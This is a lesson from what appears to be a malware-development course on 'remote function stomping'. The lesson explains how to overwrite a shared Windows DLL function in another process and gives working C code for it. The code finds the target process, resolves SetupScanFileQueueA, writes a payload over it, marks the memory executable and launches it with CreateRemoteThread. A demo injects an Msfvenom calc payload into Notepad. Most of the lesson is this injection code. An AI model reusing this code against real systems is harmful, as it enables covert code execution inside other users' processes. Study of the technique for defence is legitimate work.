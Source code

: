 # 5.3 Remote Function Stomping Injection

### Introduction

The previous module introduced function stomping on the local address space of the process. In this module, the same implementation logic will be used to inject code into a remote process.

### Remote Function Stomping

The DLLs that implement Windows API functions are shared across all processes that use them, therefore, the functions within the DLL have the same address in each process. However, the address of the DLL itself will differ between processes due to the different virtual address spaces. This means that while the address of the target function remains constant across different processes, the DLL which exports these functions may not be the same.

For example, two processes, A and B, will be sharing `Kernel32.dll` but the address of the DLL may be different within each process due to [Address Space Layout Randomization](https://en.wikipedia.org/wiki/Address_space_layout_randomization). However, `VirtualAlloc`, which is exported from `Kernel32.dll`, will have the same address in both processes.

It is important to note that in order for function stomping to be performed remotely, the DLL that exports the targeted function must already be loaded into the target process. For example, to target the `SetupScanFileQueueA` function in a remote function, which is exported from `Setupapi.dll`, that DLL must already be loaded into the target process. If the remote process does not have `Setupapi.dll` loaded, the `SetupScanFileQueueA` function will not be present in the target process, resulting in an attempt to write to an address that does not exist.

### Remote Function Stomping Code

The following code is similar to the local function stomping code, however, it uses different WinAPI functions to carry out code injection.

```c

#define		SACRIFICIAL_DLL            "setupapi.dll"
#define		SACRIFICIAL_FUNC           "SetupScanFileQueueA"

// ...

BOOL WritePayload(HANDLE hProcess, PVOID pAddress, PBYTE pPayload, SIZE_T sPayloadSize) {

	DWORD	dwOldProtection            = NULL;
	SIZE_T	sNumberOfBytesWritten      = NULL;

	if (!VirtualProtectEx(hProcess, pAddress, sPayloadSize, PAGE_READWRITE, &dwOldProtection)) {
		printf("[!] VirtualProtectEx [RW] Failed With Error : %d \n", GetLastError());
		return FALSE;
	}

	if (!WriteProcessMemory(hProcess, pAddress, pPayload, sPayloadSize, &sNumberOfBytesWritten) || sPayloadSize != sNumberOfBytesWritten){
		printf("[!] WriteProcessMemory Failed With Error : %d \n", GetLastError());
		printf("[!] Bytes Written : %d of %d \n", sNumberOfBytesWritten, sPayloadSize);
		return FALSE;
	}

	if (!VirtualProtectEx(hProcess, pAddress, sPayloadSize, PAGE_EXECUTE_READWRITE, &dwOldProtection)) {
		printf("[!] VirtualProtectEx [RWX] Failed With Error : %d \n", GetLastError());
		return FALSE;
	}

	return TRUE;
}


int wmain(int argc, wchar_t* argv[]) {

	HANDLE		hProcess		= NULL,
		        hThread			= NULL;
	PVOID		pAddress		= NULL;
	DWORD		dwProcessId		= NULL;

	HMODULE		hModule			= NULL;

	if (argc < 2) {
		wprintf(L"[!] Usage : \"%s\" <Process Name> \n", argv[0]);
		return -1;
	}

	wprintf(L"[i] Searching For Process Id Of \"%s\" ... ", argv[1]);
	if (!GetRemoteProcessHandle(argv[1], &dwProcessId, &hProcess)) {
		printf("[!] Process is Not Found \n");
		return -1;
	}
	printf("[+] DONE \n");
	printf("[i] Found Target Process Pid: %d \n", dwProcessId);

	

	printf("[i] Loading \"%s\"... ", SACRIFICIAL_DLL);
	hModule = LoadLibraryA(SACRIFICIAL_DLL);
	if (hModule == NULL) {
		printf("[!] LoadLibraryA Failed With Error : %d \n", GetLastError());
		return -1;
	}
	printf("[+] DONE \n");


	pAddress = GetProcAddress(hModule, SACRIFICIAL_FUNC);
	if (pAddress == NULL) {
		printf("[!] GetProcAddress Failed With Error : %d \n", GetLastError());
		return -1;
	}
	printf("[+] Address Of \"%s\" : 0x%p \n", SACRIFICIAL_FUNC, pAddress);


	printf("[#] Press <Enter> To Write Payload ... ");
	getchar();
	printf("[i] Writing ... ");
	if (!WritePayload(hProcess, pAddress, Payload, sizeof(Payload))) {
		return -1;
	}
	printf("[+] DONE \n");

	

	printf("[#] Press <Enter> To Run The Payload ... ");
	getchar();

	hThread = CreateRemoteThread(hProcess, NULL, NULL, pAddress, NULL, NULL, NULL);
	if (hThread != NULL)
		WaitForSingleObject(hThread, INFINITE);

	printf("[#] Press <Enter> To Quit ... ");
	getchar();

	return 0;
}


```

### Demo

Targeting `Notepad.exe` process.

![Image](https://maldevacademy.s3.amazonaws.com/images/Intermediate/remote-stomp-109445015-30dbf6a1-2ece-4d4c-a304-a9fc12f8f231.png)

  

Retrieving `SetupScanFileQueueA`'s address.

![Image](https://maldevacademy.s3.amazonaws.com/images/Intermediate/remote-stomp-209445031-a0b9b825-93f8-429c-a6eb-5dc4e276e2df.png)

  

The original bytes of the `SetupScanFileQueueA` function.

![Image](https://maldevacademy.s3.amazonaws.com/images/Intermediate/remote-stomp-309445021-d9ccc1af-1eb5-4e9e-ba62-8f67b3442c90.png)

  

Replacing the function's bytes with the Msfvenom calc payload.

![Image](https://maldevacademy.s3.amazonaws.com/images/Intermediate/remote-stomp-409445036-d03ad29c-8eb0-4b5a-b166-bd30458dbe1a.png)

  

Running the payload.

![Image](https://maldevacademy.s3.amazonaws.com/images/Intermediate/remote-stomp-509445038-6bb55397-dbac-4546-b1d7-2a7be0744c8a.png)